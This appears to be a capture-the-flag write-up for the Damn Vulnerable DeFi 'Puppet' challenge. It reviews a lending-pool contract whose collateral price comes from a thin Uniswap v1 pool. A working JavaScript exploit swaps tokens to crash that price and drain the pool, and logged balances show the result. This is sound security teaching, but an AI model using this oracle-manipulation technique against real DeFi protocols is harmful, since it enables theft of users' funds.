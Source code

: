 ## 1) Challenge

> <cite>There's a huge lending pool borrowing Damn Valuable Tokens (DVTs), where you first need to deposit twice the borrow amount in ETH as collateral. The pool currently has 100000 DVTs in liquidity.</cite>
> <cite>There's a DVT market opened in an Uniswap v1 exchange, currently with 10 ETH and 10 DVT in liquidity.</cite>
> <cite>Starting with 25 ETH and 1000 DVTs in balance, you must steal all tokens from the lending pool. </cite>([link](https://www.damnvulnerabledefi.xyz/challenges/8.html))

Challenge created by [@tinchoabbate](https://twitter.com/tinchoabbate).


## 2) Code Review

For this challenge, we have only one contract: `PuppetPool` ([source code](https://github.com/tinchoabbate/damn-vulnerable-defi/blob/v2.2.0/contracts/puppet/PuppetPool.sol)):

```solidity

contract PuppetPool is ReentrancyGuard {

    using Address for address payable;

    mapping(address => uint256) public deposits;
    address public immutable uniswapPair;
    DamnValuableToken public immutable token;
    
    event Borrowed(address indexed account, uint256 depositRequired, uint256 borrowAmount);

    constructor (address tokenAddress, address uniswapPairAddress) {
        token = DamnValuableToken(tokenAddress);
        uniswapPair = uniswapPairAddress;
    }

    // Allows borrowing `borrowAmount` of tokens by first depositing two times their value in ETH
    function borrow(uint256 borrowAmount) public payable nonReentrant {
        uint256 depositRequired = calculateDepositRequired(borrowAmount);
        
        require(msg.value >= depositRequired, "Not depositing enough collateral");
        
        if (msg.value > depositRequired) {
            payable(msg.sender).sendValue(msg.value - depositRequired);
        }

        deposits[msg.sender] = deposits[msg.sender] + depositRequired;

        // Fails if the pool doesn't have enough tokens in liquidity
        require(token.transfer(msg.sender, borrowAmount), "Transfer failed");

        emit Borrowed(msg.sender, depositRequired, borrowAmount);
    }

    function calculateDepositRequired(uint256 amount) public view returns (uint256) {
        return amount * _computeOraclePrice() * 2 / 10 ** 18;
    }

    function _computeOraclePrice() private view returns (uint256) {
        // calculates the price of the token in wei according to Uniswap pair
        return uniswapPair.balance * (10 ** 18) / token.balanceOf(uniswapPair);
    }

     /**
     ... functions to deposit, redeem, repay, calculate interest, and so on ...
     */

}

```
- `borrow` accepts the amount to borrow and prevents a reentrancy attack by using the `nonReentrant` modifier; it's also a payable function:
    - computes the deposit required to borrow the amount requested. It calls the `calculateDepositRequired` function (line `29`)
    - checks, if the ETH amount sent is `>=` than the deposit required (line `31`)
    - if the ETH amount sent is `>` than the deposit required, the difference (`msg.value - depositRequired`) is sent back to the sender (lines `33-35`)
    - updates the `deposits` variable for the `msg.sender` (line `37`)
    - transfers the tokens requested to the `msg.sender` (line `40`)
- `calculateDepositRequired` returns the deposit required as collateral. It calls `_computeOraclePrice` to retrieve the price used in the formula `amount * _computeOraclePrice() * 2 / 10 ** 18`
- `_computeOraclePrice` computes the token's price by using information from the Uniswap pair (line `51`). In particular, the price is calculated as the ratio of the Uniswap balance over the Uniswap token balance.


Here are the current balances:
- we have `25 ETH` and `1000 DVT` ([setup](https://github.com/tinchoabbate/damn-vulnerable-defi/blob/master/test/puppet/puppet.challenge.js#L21-L22))
- the Uniswap exchange has `10 ETH` and `10 DVT` ([setup](https://github.com/tinchoabbate/damn-vulnerable-defi/blob/master/test/puppet/puppet.challenge.js#L18-L19))
- the pool has `100000 DVT` ([setup](https://github.com/tinchoabbate/damn-vulnerable-defi/blob/master/test/puppet/puppet.challenge.js#L23))

Looking at the `calculateDepositRequired`, it initially returns double the amount requested. With the initial price, to steal all the `100000 DVT`, we need to deposit `200000 ETH` as collateral. Unfortunately, we have `25 ETH`. 

The `_computeOraclePrice` function uses the exchange `ETH` and `DVT` balances to compute the price. It means that if the `DVT` balance of the exchange increases (the denominator in the formula), the calculated price will also decrease.

So, if we swap most of our `DVT` for some `ETH`, the value `token.balanceOf(uniswapPair)` will be much more significant compared to the `uniswapPair.balance` (that will be close to zero since we have enough `DVT` to drain most of the balance).

Once we have swapped all the `DVT`, the price will be so low that the deposit required to borrow `100000 DVT` will be less than the `ETH` we have obtained (it will be roughly `19 ETH`).


## 3) Solution

The solution consists of the following steps:
- swap `999.99 DVT` for `ETH` using the Uniswap pair by calling `tokenToEthSwapInput` (we need first to approve the Uniswap pair). We need to leave some `DVT` because the challenge requires having more than `100000 DVT` ([challenge](https://github.com/tinchoabbate/damn-vulnerable-defi/blob/master/test/puppet/puppet.challenge.js#L115-L117))
- borrow `100000 DVT` from the pool by depositing the amount requested (it will be less than the `ETH` we have)

`puppet.challenge.js`:
```javascript

    it('Exploit', async function () {
        /** CODE YOUR EXPLOIT HERE */

        let provider = ethers.provider

        function formatOutput(val){
            return parseFloat(ethers.utils.formatEther(val)).toFixed(3)
        }

        async function logData() {

            let row1 = {
                "pool DVT": formatOutput(await this.token.balanceOf(this.lendingPool.address)),
                "pool ETH": formatOutput(await provider.getBalance(this.lendingPool.address)),
                "attacker DVT": formatOutput(await this.token.balanceOf(attacker.address)),
                "attacker ETH": formatOutput(await provider.getBalance(attacker.address)),
                "exchange DVT": formatOutput(await this.token.balanceOf(this.uniswapExchange.address)),
                "exchange ETH": formatOutput(await provider.getBalance(this.uniswapExchange.address))
            }

            let depositRequired = await this.lendingPool.calculateDepositRequired(POOL_INITIAL_TOKEN_BALANCE)
            console.table([row1])
            console.log(`[+] Deposit required to borrow ${formatOutput(POOL_INITIAL_TOKEN_BALANCE)} DVT: ${formatOutput(depositRequired)} ETH\n`)
        }

        let tokenAmount = ethers.utils.parseEther('999.99');

        await logData.call(this);

        let p = await this.uniswapExchange.getEthToTokenInputPrice(tokenAmount, { gasLimit: 1e6 });
        console.log(`[+] Swapping ${formatOutput(tokenAmount)} DVT. Expecting to receive: ${formatOutput(p)} ETH`)
        
        await this.token.connect(attacker).approve(this.uniswapExchange.address, tokenAmount)

        await this.uniswapExchange.connect(attacker).tokenToEthSwapInput(
            tokenAmount,
            1,
            (await ethers.provider.getBlock('latest')).timestamp * 2,
            { gasLimit: 1e6 }
        );


        let depositRequired = await this.lendingPool.calculateDepositRequired(POOL_INITIAL_TOKEN_BALANCE)

        await logData.call(this);

        console.log(`[+] Borrowed ${formatOutput(POOL_INITIAL_TOKEN_BALANCE)} DVT`)

        await this.lendingPool.connect(attacker).borrow(POOL_INITIAL_TOKEN_BALANCE, {
            value: depositRequired
        })

        await logData.call(this);
    });

```

I added some log information to keep track of the different balances. The following is the output obtained from running the above code:

```

┌─────────┬──────────────┬──────────┬──────────────┬──────────────┬──────────────┬──────────────┐
│ (index) │   pool DVT   │ pool ETH │ attacker DVT │ attacker ETH │ exchange DVT │ exchange ETH │
├─────────┼──────────────┼──────────┼──────────────┼──────────────┼──────────────┼──────────────┤
│    0    │ '100000.000' │ '0.000'  │  '1000.000'  │   '25.000'   │   '10.000'   │   '10.000'   │
└─────────┴──────────────┴──────────┴──────────────┴──────────────┴──────────────┴──────────────┘
[+] Deposit required to borrow 100000.000 DVT: 200000.000 ETH

[+] Swapping 999.990 DVT. Expecting to receive: 9.901 ETH
┌─────────┬──────────────┬──────────┬──────────────┬──────────────┬──────────────┬──────────────┐
│ (index) │   pool DVT   │ pool ETH │ attacker DVT │ attacker ETH │ exchange DVT │ exchange ETH │
├─────────┼──────────────┼──────────┼──────────────┼──────────────┼──────────────┼──────────────┤
│    0    │ '100000.000' │ '0.000'  │   '0.010'    │   '34.901'   │  '1009.990'  │   '0.099'    │
└─────────┴──────────────┴──────────┴──────────────┴──────────────┴──────────────┴──────────────┘
[+] Deposit required to borrow 100000.000 DVT: 19.665 ETH

[+] Borrowed 100000.000 DVT
┌─────────┬──────────┬──────────┬──────────────┬──────────────┬──────────────┬──────────────┐
│ (index) │ pool DVT │ pool ETH │ attacker DVT │ attacker ETH │ exchange DVT │ exchange ETH │
├─────────┼──────────┼──────────┼──────────────┼──────────────┼──────────────┼──────────────┤
│    0    │ '0.000'  │ '19.665' │ '100000.010' │   '15.236'   │  '1009.990'  │   '0.099'    │
└─────────┴──────────┴──────────┴──────────────┴──────────────┴──────────────┴──────────────┘
[+] Deposit required to borrow 100000.000 DVT: 19.665 ETH

```


You can find the complete code [here](https://github.com/dellalibera/damn-vulnerable-defi-solutions/blob/master/test/puppet/puppet.challenge.js).


## 4) References

- [The Uniswap V1 Protocol](https://docs.uniswap.org/protocol/V1/reference/exchange)